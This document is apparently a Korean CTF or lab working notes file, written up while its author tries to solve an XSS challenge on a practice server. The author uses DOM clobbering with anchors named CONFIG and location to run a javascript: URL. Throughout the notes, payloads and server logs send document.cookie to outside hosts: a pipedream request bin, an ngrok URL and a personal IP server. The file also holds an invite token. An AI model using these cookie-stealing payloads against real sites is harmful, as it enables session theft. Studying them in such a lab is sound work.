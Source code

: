 # 제작중..

# 삽질
<a href="report">test</a>
<a href="/report">test</a>
<a href="//www.naver.com">test</a> -> RPO 언인텐..?

<a href='javascript:document.location="https://www.naver.com" id='CONFIG' name='main'>link</a> <a id='CONFIG' name='debug'></a> -> 안됨

<a href='https://www.naver.com' id="CONFIG" name='main'>link</a> <a id='CONFIG' name='debug'></a> -> 됨

<a href='https://www.naver.com'>link</a> <a id='CONFIG' name='debug'></a> -> 됨

<a href='javascript:document.location="https://054e-118-235-6-100.ngrok-free.app"+"1234"' id="CONFIG" name='main'>main</a> <a id='CONIFG' name='debug'>notu</a>

https://pipedream.com/@s3curity/invite?token=6008fca8296b9c31613d9b60c5f59cc1

practice?content=<a href="javascript:document.location='https://www.naver.com'" id='CONFIG' name='main'>sadf</a><a href='id='CONFIG' name='debug'></a>

<a id="CONFIG">bypass</a>
<a id="CONFIG" name="location" href="javascript:document.location='https://www.google.com'">href</a>



# 첫 xss 성공
아래의 url로 접근하면 xss가 성공함
http://ssh.knock-on.org:10010/practice?content=<a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='https://www.google.com'">href</a>

이를 기반으로 최종 페이로드를 짜봤는데, 이슈가 있음


### 페이로드 1
일단 아래와 같이 임시 도메인에 쿠키를 받기 위한 요청을 HTML 폼에 전달하여 보내면
http://ssh.knock-on.org:10010/practice에서 GET 폼에 아래의 데이터를 넣어줌
content -> <a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='https://enm9ufkipz1p.x.pipedream.net/'+document.cookie">href</a>

서버에서 아래와 같이 인코딩된 데이터를 받음
app_1  | 222.233.23.200 - - [03/May/2024 08:16:53] "GET /practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A HTTP/1.1" 200 -

결과 -> xss 성공, 서버에 쿠키가 잘 전달됨

단순하게 서버입장에서 저런 페이로드를 받았으니까 /report 엔드포인트에서 서버에서 찍힌 'practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A' 이 페이로드 그대로 사용해보기로함

서버로그는 아래와같음
app_1  | 127.0.0.1 - - [03/May/2024 08:19:29] "GET /practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A HTTP/1.1" 200 -

보면 알 수 있듯이 서버입장에서는 동일한 데이터를 받을 수 있음. 위는 /practice, 아래는 /report에서 전달한 페이로드
practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A
practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A

그런데 아래는 xss에 실패하고, 서버에는 쿠키가 전달 안됨..


### 페이로드 2
생각해보니까 어차피 /report에서 URL로 쏴주니까 HTML 폼에서 보낼게 아니라 URL에서 직접 보내야할 것 같음
http://ssh.knock-on.org:10010/practice?content=<a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='https://enm9ufkipz1p.x.pipedream.net/'+document.cookie">href</a>
결과 -> 실패

인코딩 이슈일 것 같아서 아래와 같이 인코딩을 한 상태로 페이로드를 넘겨봤음
http://ssh.knock-on.org:10010/practice?content=%3Ca%20id%3D%22CONFIG%22%3Ebypass%3C%2Fa%3E%3Ca%20id%3D%22CONFIG%22%20name%3D%22location%22%20href%3D%22javascript%3Adocument.location%3D%27https%3A%2F%2Fenm9ufkipz1p.x.pipedream.net%2F%27%2Bdocument.cookie%22%3Ehref%3C%2Fa%3E

서버 로그
app_1  | 118.235.13.230 - - [03/May/2024 10:20:56] "GET /practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a> HTTP/1.1" 200 -

결과 -> xss 성공, 서버에 쿠키가 잘 전달됨

같은 방식으로 다시 /report 엔드포인트에서 서버 로그에 찍힌 페이로드를 그대로 사용해봤음
서버로그
app_1  | 127.0.0.1 - - [03/May/2024 08:28:41] "GET /practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a> HTTP/1.1" 200 -

분명 동일한 페이로드가 전달되었음
practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>
practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>


그런데 결과적으로 xss에 실패하고, 서버에는 쿠키가 전달 안됨..

봇문젠가..? 실제 xss가 성공해서 리다이렉트 되는 속도보다 봇이 xss 당하는 속도보다 느린 것 같음 
봇이 뭔가 /practice까지는 갔다오는데, requestbin까지는 안들리고 오는 느낌..? -> 가능성있긴해서 requestbin 말고 local에서 서버 열고 해봄

http://211.250.216.249:7000/

<a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='http://211.250.216.249:7000/'+document.cookie">href</a>

app_1  | 211.250.216.249 - - [05/May/2024 13:37:24] "GET /practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a> HTTP/1.1" 200 -

practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a>

practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a>

practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a>